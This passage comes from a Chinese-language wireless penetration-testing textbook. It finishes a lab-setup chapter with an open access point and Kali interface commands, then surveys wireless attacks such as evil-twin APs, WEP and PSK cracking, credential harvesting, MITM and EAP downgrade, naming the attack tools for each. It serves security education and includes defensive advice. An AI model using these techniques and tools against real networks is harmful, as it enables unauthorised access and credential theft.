默认情况下，用户名和密码均为 admin。如果你无法访问，必须将路由器重置为默认配置设置。为此，按住无线路由器背面的按钮 5 秒钟，路由器将恢复默认设置。

3. 要将 SSID 重命名为 `Wireless Lab`，请导航到 `Wireless` 选项卡，然后选择 `Wireless Settings`。请参阅 *图 1.22*。

4. 如前所述，必须将接入点的安全设置更改为 `Open Authentication`。从 `Wireless` 菜单中选择 `None`，然后选择 `Security` 选项。如果安全功能被禁用，则接入点处于 `Open Authentication Mode`（开放式认证模式）（请参阅 *图 1.22*）。

5. 保存对接入点的更改，如有必要则重启它。你的接入点现在应该可以使用 SSID Wireless Lab 正常工作了。



**图 1.22：** 无线路由器设置

我们已成功将接入点配置为 Wireless Lab SSID。它正在广播其存在，这被我们的 Windows 笔记本电脑和其他处于接入点**射频**（**RF**）范围内的设备检测到。

值得注意的是，我们将接入点设置为 `Open` 模式，这是安全性最低的选项。目前，不建议将此接入点连接到互联网，因为 RF 范围内的任何人都能利用它访问互联网。

### 安装无线网卡

我们的无线网卡设置起来比接入点容易得多。优势在于 Kali 预装了所有必要的设备驱动程序，开箱即用即可启用数据包注入和嗅探功能。无线网卡将与渗透测试人员的笔记本电脑配合使用。请逐步遵循以下说明设置你的网卡：

1. 将网卡插入 Kali 笔记本电脑的一个 USB 端口并启动。登录后，打开控制台终端并输入 `iwconfig`。你的屏幕应如 *图 1.23* 所示：




**图 1.23：** iwconfig 命令

2. 如你所见，无线网卡的无线接口名为 `wlan0`。要启用该接口，请输入 `ifconfig wlan0`，如 *图 1.24* 所示：



**图 1.24：** ifconfig wlan0 命令

3. `1c:bf:ce:89:8c:e2` 应与无线网卡上列出的 MAC 地址相同。

## 连接到接入点

现在，我们将介绍如何使用无线网卡连接到接入点。Wireless Lab 是我们接入点的 SSID，且不使用任何认证。要将无线网卡连接到接入点，请遵循以下步骤：

让我们看看我们的网卡当前能识别哪些无线网络。你可以通过运行命令 `iwlist wlan0 scanning` 获取附近网络的列表。

1. 继续向下滚动，直到看到列出的 Wireless Lab 网络。在我的配置中，它被检测为 `Cell 01`；你的可能不同。网络名称存储在 ESSID 字段中，如 *图 1.25* 所示：



**图 1.25：** iwlist wlan0 scanning 命令

2. 要检查状态，请运行命令 `iwconfig wlan0 essid "Wireless Lab"` 和 `iwconfig wlan0`。如果成功连接到接入点，该接入点的 MAC 地址应出现在 `iwconfig` 输出的 Access Point: 字段中，如 *图 1.26* 所示：



**图 1.26：** iwconfig wlan0 essid “Wireless Lab” 命令

3. 根据文档，接入点的管理界面 IP 地址为 `192.168.1.1`。或者，当我们配置接入点时，这是默认路由器 IP 地址。让我们使用 `ifconfig wlan0 192.168.1.3 netmask 255.255.255.0` up 命令将我们的 IP 地址设置在同一子网中。输入 `ifconfig wlan0` 并查看输出，以确认命令是否生效，如 *图 1.27* 所示：



**图 1.27：** ifconfig wlan0 192.168.1.3 netmask 255.255.255.0 命令

4. 现在，使用 `ping 192.168.1.1` 命令 ping 接入点。如果网络连接已正确设置，应能看到来自接入点的应答，如 *图 1.28* 所示：



**图 1.28：** Ping 命令

我们可以通过查看连接日志来检查接入点上的连接情况。无线网卡的 MAC 地址 `1c:bf:ce:89:8c:e2` 已被记录在案，显示其向路由器发起了 DHCP 请求，如随附日志所示，见 *图 1.29*：



**图 1.29：** 无线路由器连接设备

## 结论

本章为你提供了搭建自己的无线实验室的分步指导。你还学习了在硬盘上安装 Kali 的基础知识，以及虚拟机（VMWare）的实验，并了解了一些无线渗透测试工具，如 Wireshark 和 Aircrack-ng。你还学习了如何使用 Web 界面配置接入点。最后，你学习了如何配置和使用无线网卡，并且必须首先学习并执行大量命令，以验证无线客户端到接入点的连接状态。

现在，你已准备好进入 *第 2 章：无线攻击技术与方法*。

## 问题

1. 列举无线渗透测试过程中使用的著名网卡。

2. 什么是 Kali Linux？

3. 列举无线渗透测试过程中使用的著名工具。

# 第 2 章

# 无线攻击技术与方法

## 简介

在本书的第二章中，我们将假设你要么非常喜欢第一章，以至于决定继续阅读，要么因为对已有知识感到满意而跳过了它。无论如何，这是你的第一个问题。普通人会买一个无线路由器，但不会设置任何无线安全。你为什么这么认为？

当然，你已经知道这一点，这是因为普通用户可能不了解设备的安全功能或防护措施，或者他们懂电脑但不熟悉如何实施无线安全。这就是 **Wi-Fi Protected Setup**（**WPS**，Wi-Fi 保护设置）发挥作用的地方。

WPS 简化了无线家庭网络的设置。用户只需按下无线路由器上的一个按钮，路由器就会自动为用户配置一个安全网络。这不是很棒吗？错！大多数典型的无线路由器容易受到暴力破解攻击。WPS PIN 通常只是一串数字。由于这一安全弱点，攻击者可以使用暴力破解方法在短短几小时内检索或破解 WPS PIN。

不只是用户会这样做；企业和 ISP 也是如此。他们只是插上无线路由器并按下 WPS 按钮，然后把密钥记下来给你。这对于企业网络来说是极差的安全性！请修改用户名，更改默认密码，禁用远程管理，并启用防火墙。

## 结构

在本章中，我们将讨论以下主题：

* 访问控制攻击
* 机密性攻击
* 凭证攻击
* 认证攻击

#### 目标

本章将让你全面了解多种不同的无线攻击策略，例如访问控制攻击、机密性攻击、凭证攻击和认证攻击。这里要记住的重点是，要意识到我们在连接无线接入点和互联网时所面临的危险。

## 访问控制攻击

WLAN 访问控制措施（如 AP MAC 过滤器和 802.11 端口访问控制）被用于访问控制攻击，以通过无线方式进入网络或绕过 WLAN 访问控制，如 *图 2.1* 所示：


**图 2.1：** WLAN 访问控制

以下部分演示了一些访问控制攻击。

## 网络侦察/战争驾驶

网络侦察/战争驾驶是一种黑客方法，其起源于电影《战争游戏》，由演员马修·布罗德里克主演。在电影中，布罗德里克饰演的角色拨打他所在地区的每一个电话号码，以发现所有现有的计算机。这演变成了一个绘制接入点地图的过程，即攻击者寻找易受攻击或未加密的 Wi-Fi 网络。计算机安全顾问彼得·希普利创造了“战争驾驶”这一术语，他开发的软件可以与便携式 **全球定位系统**（**GPS**）交互。简单来说，战争驾驶是通过监听信标或发送探测请求来定位无线局域网的过程，这为后续攻击提供了跳板。这种攻击可以使用 Airmon-ng、DStumbler、KisMAC 和 NetStumbler 等工具来实施。战争驾驶通常涉及两个人：一个开车，另一个扫描周围的无线网络。他们可以通过合适的软件和应用程序设置 GPS 来定位这些 Wi-Fi 热点，并将其保存以备将来进行无线攻击，如 *图 2.2* 所示：


**图 2.2：** 战争驾驶示意图

## 非法接入点


任何未经授权放置在网络上、因此不由网络管理员维护的无线**接入点** (**AP**) 称为流氓接入点 (AP)。流氓接入点不像普通接入点那样受到保护。它们特别危险，因为它们物理上隐藏在网络防火墙后面，允许任何有权访问该 AP 的人获得对整个网络的访问权限。流氓 AP 可以直接插入防火墙或网络交换机、墙面网口，甚至其他网络设备，并可能由攻击者恶意安装，或仅仅是由寻求自己 Wi-Fi 接入的员工安装。另一方面，流氓接入点可用于多种攻击，包括拒绝服务、数据窃取和恶意软件部署，如 *图 2.3* 所示：



**图 2.3：** 流氓接入点

## Ad hoc 关联

Ad hoc 连接攻击是一种特别恶劣的攻击类型，攻击者（恶意用户）利用第三方合法用户作为中间人，位于攻击者设备与 AP 或其他类型网关之间。

Ad hoc 无线网络功能对于*中间设备*操作至关重要，可在 Windows 和 Linux 计算机上部署，支持在客户端设备之间建立 Ad hoc（点对点）无线链路（无需 AP 等额外网络基础设施）。你在后台所做的就是在电脑上构建一个虚拟软件 AP，第二台设备与你创建的 SSID 关联（从而有效建立无线链路）。

Ad hoc 攻击可按以下场景描述，如 *图* *2.4* 所示。假设攻击者是计算机 2、3 或 4 中的一个。计算机 1 将是受害者（中间人）。这台笔记本电脑将是运行并向周围区域提供无线连接的设备，并拥有另一个连接到有线网络以获取互联网访问的接口。

攻击者可能连接到计算机 1 的 WLAN，然后利用它通过这台受害者的电脑将所有流量路由到互联网。从互联网的角度来看，计算机 1 似乎是流量的来源！从计算机 1 到所有攻击者的无线链路不一定是 Wi-Fi 连接；它们可以是蓝牙或通信双方均支持的任何其他类型无线技术。

请参阅 *图 2.4*：



**图 2.4：** Ad hoc 关联

## MAC 地址欺骗

MAC 地址欺骗攻击是指入侵者嗅探网络以获取有效的 MAC 地址，并试图冒充其中一个有效 MAC 地址，从而通过无线接入点获得完全的网络访问权限。这种攻击在收费热点（如酒店、机场、咖啡店和其他付费上网场所）很流行。MAC 地址欺骗攻击如 *图 2.5* 所示：



**图 2.5：** MAC 地址欺骗

## 802.11 RADIUS 破解

虽然我们不常听说这种攻击，但它是一个必须讨论的重要话题。在此攻击中，攻击者使用暴力破解从 802.11 接入请求中获取 **远程认证拨号用户服务** (**RADIUS**) 密钥，用于恶意目的。在 AP 和 RADIUS 服务器之间的局域网上，任何抓包工具都能奏效。由于许多 AP、服务器甚至软件服务都会要求 RADIUS 登录，因此风险很高。如果 RADIUS 被攻破，攻击者可以访问所有需要 RADIUS 批准访问的资源。此攻击如 *图 2.6* 所示：



**图 2.6：** 802.11 RADIUS 破解

## 机密性攻击

这些攻击试图拦截通过无线网络传输的私密数据，无论数据是以明文发送，还是使用 802.11 或更高层协议加密。

以下章节讨论各种机密性攻击。

## 窃听

当然，我们都明白什么是窃听，但你是否理解它在安全方面的含义？在计算机安全领域，窃听意味着捕获数据、解码数据，然后获取潜在的敏感信息。这就像偷听电话通话。你监听交谈、记录下来，然后从中提取潜在的敏感信息。Ettercap、Kismet 和 Wireshark 都能做到这一点。该攻击如 *图* *2.7* 所示：



**图 2.7：** 窃听

## WEP 密钥破解

终于要谈谈 WEP 破解了！顾名思义，就是使用被动或主动方法捕获数据以恢复 WEP 密钥。凭借当今改进的硬件和软件，WEP 加密可在 5 分钟内被破解！仅当旧设备仍在使用时才应使用 WEP 加密；否则应使用 WPA2 加密。这些攻击可使用 Aircrack-ng、AirSnort、Airoway、chopchop 和 dwepcrack 等工具实施。WEP 密钥破解的示例见 *图* *2.8*：



**图 2.8：** WEP 密钥破解

## 邪恶双生 AP

你听说过邪恶双生 AP 吗？流氓接入点就像邪恶双生 AP。为了诱使用户误以为它是受信任的无线网络，攻击者建立一个虚假的无线 AP。由于信标更快且距离更近，它们会增强信号，导致客户端瞬间连接到它们。你在实际环境中最常遇到的邪恶双生攻击场景是带有网络认证页面（Captive Portals）的场所，如星巴克、机场和酒店。这些攻击可通过 Honeypot、CqureAP、D-Link G200、HermesAP、Rogue Squadron 和 WifiBSD 等工具实施。下图描绘了一个常用工具，如 *图 2.9* 所示：



**图 2.9：** 邪恶双生 AP

## AP 钓鱼

为了钓取登录凭据、银行账户和信用卡详细信息，攻击者在虚假 AP 上运行一个伪造的 Web 门户或 Web 服务器。因为普通用户不会察觉到正在发生的攻击，这可以说是最危险、最可怕的攻击之一。他们会以为这是真正的网站，但攻击者只是在另一端等待他们登录，以便窃取他们的数据。这些攻击可使用 Airpwn、Airsnarf、Hotspotter、Karma 和 RGlueAP 等工具实施，如 *图 2.10* 所示：



**图 2.10：** AP 钓鱼

## 中间人攻击

你可能以前听说过这种攻击手法；如果没听过，现在知道了！在中间人攻击中，攻击者拦截你与另一个目标之间的网络流量。在有线或无线网络上，攻击者可能获取用户名和密码、查看电子邮件、查看网站的 HTTP 会话等。这些攻击可使用 dsniff、Ettercap-NG 和 sshmitm 等工具实施。此攻击如 *图* *2.11* 所示：



**图 2.11：** MITM 攻击

## 凭据攻击


你是否听说过或遇到过在线账户被黑客攻击的人？极有可能，该用户已成为凭证攻击的受害者，攻击者窃取了他们的登录凭证。这可以通过 Web 服务器或 **Social Engineering Toolkit** (**SET**) 等工具来完成。攻击者可以克隆一个网站，使其看起来真实可信，从而诱骗用户登录。用户根本不知道有人突然完全访问了他们的数据。下文将讨论凭证收集器和网络钓鱼攻击方法。

## 凭证收集器

此技术在攻击者的电脑上启动 `Apache` 服务器以克隆网站，使其看起来真实有效。攻击者可能会连接到无线接入点并使用 DNS 欺骗将 HTTP 请求发送到虚假网站。当用户尝试正常登录时，该网站看起来将与真实网站完全相同。在攻击者端，攻击者将获得用户的用户名和密码，以及用户的 IP 地址。从此，攻击者可以继续收集账户登录信息，随后将其保存在报告中。对公司员工进行社会工程学攻击至关重要，以查看他们是否遵循流程和安全标准。如图 2.12 所示：



**图 2.12：** 凭证收集器

## 网络钓鱼

那么，究竟什么是网络钓鱼，我们如何识别网络钓鱼尝试、欺诈或骗局？网络钓鱼是一种获取用户名、密码、社会安全号码、电话号码和信用卡号码等个人信息的欺骗性方法。这些攻击通常通过发送电子邮件给用户，指示他们访问网站以更新信息、更改密码或验证信息来实施。避免成为网络钓鱼诈骗受害者的最简单方法是了解其运作方式。来自未知来源要求提供密码或更改密码的电子邮件极有可能是欺诈性电子邮件。这些电子邮件需要被拦截或标记为垃圾邮件或网络钓鱼邮件。如果你怀疑自己已成为网络钓鱼的受害者，请更新密码，如图 2.13 所示：



**图 2.13：** 网络钓鱼

## 认证攻击

攻击者使用认证攻击来窃取有效的用户身份和凭证，以访问专用网络和服务。以下部分描述了一些认证攻击。

## 共享密钥猜测

使用供应商默认凭证或共享密钥生成器，攻击者尝试猜测 802.11 共享密钥认证。所有共享密钥都不应保留默认值，并且应在设备设置和配置完成后立即更改。此攻击可使用任何破解工具（如 `Aircrack-ng`）实施，如图 2.14 所示：



**图 2.14：** 共享密钥猜测

## PSK 破解

使用字典攻击工具，PSK 破解技术从收集的密钥握手帧中恢复 WPA/WPA2 PSK。WPA/WPA2 密钥的加密强度在此攻击中至关重要。如果密钥极难破解，可能需要数周时间，这可能不值得黑客花费时间。创建自己的密码时，请使用字母、数字和符号的组合。字符越多，成为目标的可能性就越小。这些攻击可使用 `coWPAtty`、`genpmk`、`KisMAC` 和 `wpa_crack` 等工具实施。PSK 破解攻击如图 2.15 所示：



**图 2.15：** PSK 破解

## 嗅探应用程序凭证

攻击者在嗅探应用程序凭证时，从明文应用程序协议中收集用户凭证，如电子邮件地址和密码。由于许多主要网站使用 HTTPS，这种情况很少发生；尽管如此，登录无线路由器或接入点时通常使用 HTTP，这是未加密的明文。如果你使用 HTTP 协议登录，攻击者可以轻松访问你的用户名和密码。这些攻击可使用 `Ace Password Sniffer`、`dsniff`、`PHoss` 和 `Win Sniffer` 等工具实施，如图 2.16 所示：



**图 2.16：** 嗅探

## 破解域账户

使用暴力破解或字典攻击工具破解域账户时，攻击者通过破解 NetBIOS 密码哈希来恢复用户的凭证，如其 Windows 登录名和密码。某些程序需要来自 Internet Explorer、Firefox 或 Google Chrome 的浏览器保存密码。如果攻击者获得你的凭证，他们可能能够访问网络共享、收发电子邮件，如果该账户具有管理权限，甚至可能危及整个域。这些攻击可使用 `John the Ripper`、`L0phtCrack` 和 `Cain` 等工具实施，如图 2.17 所示：



**图 2.17：** John the Ripper

## VPN 登录破解

攻击者对 VPN 认证协议使用暴力攻击以获取用户凭证，如 PPTP 或 IPsec 密码。请确保密码和预共享密钥都是唯一且极其安全的。易于猜测的密码或数字很容易危及整个组织，导致消费者信息泄露。这些攻击可使用 `IKE-scan`、`IKECrack`、`anger` 和 `THC-pptp-bruter` 等工具实施。VPN 登录破解攻击如图 2.18 所示：



**图 2.18：** IKE-scan

## 802.11 身份盗窃

在 802.11 身份盗窃攻击中，攻击者从无线 802.11 的明文中收集用户配置文件。加密对于确保数据不被泄露至关重要。连接到 Wi-Fi 网络时，使用 HTTPS 和 VPN 协议将有助于防范此类攻击。这可以使用 `Wireshark` 或 `Ettercap-NG` 等捕获工具完成，如图 2.19 所示：



**图 2.19：** 使用 Wireshark 窃取密码

## 802.11 密码猜测

802.11 密码猜测攻击使用捕获的身份反复尝试猜测用户在 802.11 认证中的密码。攻击者可能会不断猜测默认密码、供应商名称、最常用密码、生日、姓名、电话号码和其他个人信息，直到完全控制无线网络。如果攻击者拥有大型密码字典，可以轻松实施字典攻击，并在几小时内获得访问权限。这些攻击可使用 `John the Ripper` 和 `THC Hydra` 等工具实施，如图 2.20 所示：



**图 2.20：** THC Hydra

## 802.11 LEAP 破解

在 802.11 LEAP 破解尝试中，攻击者使用字典攻击工具破解 NT 密码哈希，从记录的 802.11 LEAP 数据包中恢复用户凭证。这取决于密码的强度；如果密码强度高，则不太可能被破解，这就是为什么使用字母、数字和符号的组合来避免字典攻击至关重要。这些攻击可使用 `Anwrap`、`Asleap` 和 `THC-LEAPcracker` 等工具实施。图 2.21 作为示例：



**图 2.21：** Asleap

## 802.11 EAP 降级攻击


EAP 是 802.11 标准所要求的，用于在连接用户和认证服务器之间传递通信。如果攻击者能将自己置于客户端和认证服务器之间，连接到网络的人就会被连接上（即攻击者成功劫持连接）。利用伪造的 EAP-Response/NAK 数据包，攻击者强迫无线 802.11 设备或服务器提供一种更低级别的认证方式。由于认证机制非常薄弱，攻击者可以在几分钟内获得访问权限。这些攻击可以使用 `File2air` 和 `libradiate` 等工具来实施。*图 2.22* 作为示例：



**图 2.22：** File2air

## 结论

探讨了几种可在无线网络上采用的潜在攻击方法。包括访问控制攻击、机密性攻击、凭证攻击和认证攻击。我们全面了解了用户可能面临的风险。

在接下来的章节中，我们将介绍如何扫描无线网络以获取信息，以及不同的无线扫描方法，并说明它们如何被用于正面或负面目的。

## 问题

